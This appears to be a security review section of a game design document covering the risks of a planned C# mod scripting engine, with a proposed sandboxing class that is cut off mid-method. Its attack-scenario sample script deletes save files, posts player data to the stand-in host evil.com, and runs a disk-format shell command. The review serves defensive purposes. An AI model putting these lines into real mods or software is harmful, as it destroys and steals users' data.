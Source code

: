 ### 🔴 CRITICAL: Script Injection & Code Execution

**Planned Feature (Phase 5):**
> "ScriptingEngine loads and executes C# script files (.cs/.csx)"

**Vulnerabilities:**
1. Arbitrary code execution
2. Script injection attacks
3. Access to sensitive APIs

**Attack Scenarios:**

```csharp
// Malicious script in mod
// Mods/EvilMod/Scripts/move_effect.csx

// Delete save files
Directory.Delete("Saves/", recursive: true);

// Exfiltrate player data
HttpClient client = new HttpClient();
await client.PostAsync("http://evil.com/collect",
    new StringContent(File.ReadAllText("player_data.json")));

// Execute shell commands
Process.Start("cmd.exe", "/c format C:");
```

**Mitigations Required:**

```csharp
public class SecureScriptingEngine : IScriptingEngine
{
    private readonly ILogger<SecureScriptingEngine> _logger;
    private readonly ScriptingSecurityPolicy _policy;

    public async Task<T> ExecuteScriptAsync<T>(string scriptPath)
    {
        // 1. Read script
        string scriptCode = await File.ReadAllTextAsync(scriptPath);

        // 2. Static analysis for dangerous patterns
        if (ContainsDangerousCode(scriptCode))
        {
            _logger.LogWarning("Script contains dangerous code: {Path}", scriptPath);
            throw new SecurityException("Script uses restricted APIs");
        }

        // 3. Create restricted scripting options
        var options = ScriptOptions.Default
            .WithReferences(typeof(object).Assembly)  // Only safe assemblies
            .WithImports(
                "System",
                "System.Collections.Generic",
                "System.Linq")  // Only safe namespaces
            .WithAllowUnsafe(false);  // No unsafe code

        // 4. Compile script
        var script = CSharpScript.Create<T>(scriptCode, options);
        var compilation = script.GetCompilation();

        // 5. Check for compilation errors
        var diagnostics = compilation.GetDiagnostics();
        if (diagnostics.Any(d => d.Severity == DiagnosticSeverity.Error))
            throw new ScriptCompilationException("Script has errors", diagnostics);

```